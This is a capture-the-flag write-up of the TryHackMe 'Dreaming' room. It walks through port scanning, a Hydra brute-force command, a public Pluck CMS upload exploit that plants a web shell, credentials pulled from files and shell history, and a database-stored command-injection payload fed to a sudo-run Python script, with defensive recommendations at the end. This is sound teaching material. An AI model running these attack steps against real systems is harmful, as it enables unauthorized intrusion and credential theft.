

# Dreaming Write-up

## Dreaming Write-up

### Challenge information

* **Platform:** TryHackMe
* **Room:** Dreaming
* **Room URL:** [https://tryhackme.com/room/dreaming](https://tryhackme.com/room/dreaming)
* **Target:** `10.114.137.196`
* **Scope:** Authorized TryHackMe lab environment

### Overview

This write-up documents the recorded path through the Dreaming room. The investigation found SSH and HTTP, identified a Pluck CMS installation, authenticated to the CMS, and uploaded a web shell using an authenticated file-upload RCE exploit.

Local enumeration exposed Lucien's credentials in a Python file. Lucien's shell history revealed MySQL credentials and the ability to run Death's Python program through sudo. A command-injection flaw in that program exposed Death's database password, which enabled access as `death`.

The supplied evidence confirms the Lucien, Death, and Morpheus flags. It also identifies a possible final escalation path through a group-writable Python standard-library file. No root execution, root flag, or scheduling mechanism was recorded, so this page does not claim root compromise.

### Table of contents

* [Tools used](dreaming-write-up.md#tools-used)
* [Initial reconnaissance](dreaming-write-up.md#initial-reconnaissance)
* [Web enumeration](dreaming-write-up.md#web-enumeration)
* [Pluck authentication and web-shell upload](dreaming-write-up.md#pluck-authentication-and-web-shell-upload)
* [Initial foothold](dreaming-write-up.md#initial-foothold)
* [Lucien access](dreaming-write-up.md#lucien-access)
* [MySQL-backed command injection](dreaming-write-up.md#mysql-backed-command-injection)
* [Access as Death](dreaming-write-up.md#access-as-death)
* [Morpheus evidence and root escalation investigation](dreaming-write-up.md#morpheus-evidence-and-root-escalation-investigation)
* [Flag retrieval](dreaming-write-up.md#flag-retrieval)
* [Attack chain](dreaming-write-up.md#attack-chain)
* [Vulnerability analysis](dreaming-write-up.md#vulnerability-analysis)
* [Defensive recommendations](dreaming-write-up.md#defensive-recommendations)
* [Evidence integrity and limitations](dreaming-write-up.md#evidence-integrity-and-limitations)
* [Final summary](dreaming-write-up.md#final-summary)

### Tools used

* Nmap
* Gobuster
* Hydra
* Searchsploit
* Python
* SSH
* MySQL client
* Linux command-line utilities

### Initial reconnaissance

The initial scan targeted the lab host:

```bash
nmap --top-ports 1000 -sS 10.114.137.196 -open
```

Observed output:

```
Starting Nmap 7.99 ( https://nmap.org ) at 2026-10-20 08:16 -0400
Nmap scan report for 10.114.137.196
Host is up (0.14s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 4.69 seconds
```

The scan established SSH and HTTP as the initial exposed services. HTTP enumeration followed because the web service could expose application routes or authentication points.

> **Verification note:** The recorded command uses `-open`. It is retained verbatim. Confirm the intended Nmap option before using this syntax elsewhere.

### Web enumeration

Directory enumeration identified an application path:

```bash
gobuster dir -u http://10.114.137.196/ --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

Observed output excerpt:

```
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.114.137.196/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
app                  (Status: 301) [Size: 314] [--> http://10.114.137.196/app/]
Progress: 7000 / 220559 (3.17%)
```

A `301` response indicates a recognized resource that redirects the client. The `/app/` discovery led to a Pluck CMS installation at `/app/pluck-4.7.13/`.

### Pluck authentication and web-shell upload

A Hydra command targeted the Pluck login form:

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.114.137.196 http-post-form "/app/pluck-4.7.13/login.php:cont1=^PASS^&bogus=&submit=Log+in:F=Password incorrect" -t 30 -V
```

No Hydra output was supplied. This write-up does not claim Hydra recovered a password.

Exploit research identified an authenticated file-upload RCE entry for the installed CMS version:

```
Pluck CMS 4.7.13 - File Upload Remote Code Execution (Authenticated) | php/webapps/49909.py
```

The exploit was copied locally and run with the recorded password argument:

```bash
searchsploit -m 49909.py
python 49909.py 10.114.137.196 80 password /app/pluck-4.7.13/
```

Observed result:

```
Authentification was succesfull, uploading webshell

Uploaded Webshell to: http://10.114.137.196:80/app/pluck-4.7.13/files/shell.phar
```

This is direct evidence that the exploit authenticated and uploaded a PHP web shell. The notes do not establish how the password value `password` was obtained.

### Initial foothold

The uploaded shell provided command execution in the CMS files directory. Enumerating home directories showed three user accounts and their files:

```bash
ls /home/*
```

Observed output:

```
/home/death:
death_flag.txt
getDreams.py

/home/lucien:
lucien_flag.txt

/home/morpheus:
kingdom
morpheus_flag.txt
restore.py

/home/ubuntu:
```

Attempting to read every user flag failed with permission errors:

```bash
cat /home/*/*_flag.txt
```

```
cat: /home/death/death_flag.txt: Permission denied
cat: /home/lucien/lucien_flag.txt: Permission denied
cat: /home/morpheus/morpheus_flag.txt: Permission denied
```

The web-shell context was not authorized to read those user-owned files. Further local enumeration was required.

### Lucien access

A search for files owned by `lucien` returned a Python file and standard user files:

```bash
find / -type f -user lucien 2>/dev/null
```

Relevant output:

```
/opt/test.py
/home/lucien/.sudo_as_admin_successful
/home/lucien/.mysql_history
/home/lucien/.bash_history
/home/lucien/.profile
/home/lucien/.bash_logout
/home/lucien/.bashrc
/home/lucien/lucien_flag.txt
```

The recorded `/opt/test.py` source contained a Pluck login password:

```python
import requests

#Todo add myself as a user
url = "http://127.0.0.1/app/pluck-4.7.13/login.php"
password = "HeyLucien#@1999!"

data = {
       "cont1":password,
       "bogus":"",
       "submit":"Log+in"
       }

req = requests.post(url,data=data)

if "Password correct." in req.text:
   print("Everything is in proper order. Status Code: " + str(req.status_code))
else:
   print("Something is wrong. Status Code: " + str(req.status_code))
   print("Results:\n" + req.text)
```

SSH access was established as `lucien`:

```bash
ssh lucien@10.114.137.196
```

The recorded session confirms the user identity:

```
lucien@ip-10-114-137-196:~$ id
uid=1000(lucien) gid=1000(lucien) groups=1000(lucien),4(adm),24(cdrom),30(dip),46(plugdev)
```

Lucien's flag was retrieved from the home directory:

```bash
cat lucien_flag.txt
```

```
THM{TH3_L1BR4R14N}
```

### MySQL-backed command injection

Lucien's shell history exposed a MySQL password and a privileged Python execution path:

```
mysql -u lucien -plucien42DBPASSWORD
sudo -u death /usr/bin/python3 /home/death/getDreams.py
```

The recorded Python source was read from `/opt/getDreams.py`:

```python
import mysql.connector
import subprocess

# MySQL credentials
DB_USER = "death"
DB_PASS = "#redacted"
DB_NAME = "library"

import mysql.connector
import subprocess

def getDreams():
    try:
        # Connect to the MySQL database
        connection = mysql.connector.connect(
            host="localhost",
            user=DB_USER,
            password=DB_PASS,
            database=DB_NAME
        )

        # Create a cursor object to execute SQL queries
        cursor = connection.cursor()

        # Construct the MySQL query to fetch dreamer and dream columns from dreams table
        query = "SELECT dreamer, dream FROM dreams;"

        # Execute the query
        cursor.execute(query)

        # Fetch all the dreamer and dream information
        dreams_info = cursor.fetchall()

        if not dreams_info:
            print("No dreams found in the database.")
        else:
            # Loop through the results and echo the information using subprocess
            for dream_info in dreams_info:
                dreamer, dream = dream_info
                command = f"echo {dreamer} + {dream}"
                shell = subprocess.check_output(command, text=True, shell=True)
                print(shell)

    except mysql.connector.Error as error:
        # Handle any errors that might occur during the database connection or query execution
        print(f"Error: {error}")

    finally:
        # Close the cursor and connection
        cursor.close()
        connection.close()

# Call the function to echo the dreamer and dream information
getDreams()
```

The flaw is the use of database content in a shell command:

```python
command = f"echo {dreamer} + {dream}"
shell = subprocess.check_output(command, text=True, shell=True)
```

`dreamer` and `dream` are retrieved from MySQL without shell-safe handling. Because `shell=True` invokes a shell, shell metacharacters in database fields can become commands.

The MySQL service was accessed with the recorded credentials:

```bash
mysql -u lucien -plucien42DBPASSWORD
```

The available databases included `library`:

```
+--------------------+
| Database           |
+--------------------+
| information_schema |
| library            |
| mysql              |
| performance_schema |
| sys                |
+--------------------+
```

The recorded injection added an `evil` row whose value executed `cat /home/death/getDreams.py` when the program processed it. The supplied command contains line-break formatting and is preserved as an investigation artifact:

```sql
insert into dreams values ("evil", "$(cat /home/death/getDreams.py">
 )");
```

The program was then run as Death:

```bash
sudo -u death /usr/bin/python3 /home/death/getDreams.py
```

The output included the program source with the previously redacted database password revealed:

```
DB_PASS = "!mementoMORI666!"
```

This confirms the database-controlled command substitution read a file accessible to `death` and exposed Death's password.

### Access as Death

The recovered password enabled a user switch:

```bash
su death
```

The `death` account's home directory contained its flag and the vulnerable program:

```
death_flag.txt  getDreams.py
```

The flag was retrieved:

```bash
cat death_flag.txt
```

```
THM{1M_TH3R3_4_TH3M}
```

### Morpheus evidence and root escalation investigation

From the `death` context, Morpheus's home directory was inspected. The recorded listing showed that Death could read Morpheus's flag:

```bash
cat /home/morpheus/morpheus_flag.txt
```

```
THM{DR34MS_5H4P3_TH3_W0RLD}
```

The directory also contained `restore.py`:

```python
from shutil import copy2 as backup

src_file = "/home/morpheus/kingdom"
dst_file = "/kingdom_backup/kingdom"

backup(src_file, dst_file)
print("The kingdom backup has been done!")
```

The imported Python library file had unsafe permissions:

```bash
ls -la /usr/lib/python3.8/shutil.py
```

```
-rw-rw-r-- 1 root death 51474 Mar 18 2025 /usr/lib/python3.8/shutil.py
```

The file is group-writable by `death`. If a privileged process executes `restore.py` with this Python installation, a modified `shutil.py` could be imported by that process. This is a potential Python library-hijacking condition.

The supplied `/etc/crontab` output does **not** show an execution schedule for `restore.py`:

```
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
```

No root shell, root flag, scheduler entry, or final library modification was recorded. The potential escalation is therefore documented as an investigation finding, not a completed compromise.

### Flag retrieval

| User     | Observed command                       | Flag                          |
| -------- | -------------------------------------- | ----------------------------- |
| Lucien   | `cat lucien_flag.txt`                  | `THM{TH3_L1BR4R14N}`          |
| Death    | `cat death_flag.txt`                   | `THM{1M_TH3R3_4_TH3M}`        |
| Morpheus | `cat /home/morpheus/morpheus_flag.txt` | `THM{DR34MS_5H4P3_TH3_W0RLD}` |

No root flag was supplied.

### Attack chain



### Vulnerability analysis

The recorded path demonstrates these findings:

1. An authenticated Pluck CMS upload vulnerability allowed web-shell deployment.
2. Application credentials were hard-coded in `/opt/test.py`.
3. Lucien's shell history retained a reusable MySQL password.
4. Database values reached `subprocess.check_output(..., shell=True)` without safe handling.
5. A Python standard-library file was group-writable by an unprivileged user.

The last finding becomes a root escalation only if a privileged process imports that file. The supplied evidence does not establish that execution condition.

### Defensive recommendations

* Upgrade or remove unsupported CMS components.
* Restrict authenticated file uploads and validate server-side file types.
* Store secrets outside source code and rotate exposed credentials.
* Limit shell-history retention where it may contain credentials.
* Avoid `shell=True` when executing subprocesses.
* Pass arguments as a list and validate database-derived data.
* Ensure Python system-library files remain writable only by root.
* Audit scheduled tasks and service units that execute Python scripts.
* Use least privilege for database accounts and sudo rules.

### Evidence integrity and limitations

* Commands and output are preserved from the supplied authorized lab session.
* No Hydra result was supplied; the password source for the exploit is unverified.
* The identity and privilege level of the uploaded web shell were not recorded.
* The injection command's supplied formatting is retained without normalization.
* The SSH password entry was not recorded.
* The final `restore.py` execution path was not recorded.
* No root shell or root flag was supplied.
* The writable `shutil.py` condition is a potential escalation path, not confirmed root execution.

### Final summary

Dreaming progressed from HTTP enumeration to authenticated Pluck web-shell upload, then to SSH access as Lucien. Shell-history credentials enabled MySQL access, while an unsafe `shell=True` pattern in Death's program turned database content into command execution. That exposed Death's password and enabled another user transition.

The supplied evidence ends after identifying Morpheus's flag and a group-writable Python library. The available records do not prove the final root-execution path, so it remains an explicit investigation gap.
